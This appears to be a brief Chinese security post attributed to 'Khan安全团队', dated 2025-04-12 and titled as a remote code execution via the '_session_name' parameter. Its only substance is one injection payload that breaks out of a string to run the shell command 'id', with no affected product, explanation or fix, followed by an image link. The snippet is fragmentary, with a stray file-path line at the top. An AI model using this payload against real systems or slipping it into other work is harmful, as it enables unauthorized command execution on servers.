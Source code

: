 #  参数** _session_name= RCE   
 Khan安全团队   2025-04-12 00:15  
  
Payload: `&**='.print((`id`)).'`  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0fJUokyMBib3EP5fiajNibkWibx6iaZhQLcUL3LmdQOy0nHxmI6NibbFeIfhI0cejEXibvo4ibTAQaluOrcw/640?wx_fmt=png&from=appmsg "")  
  
  
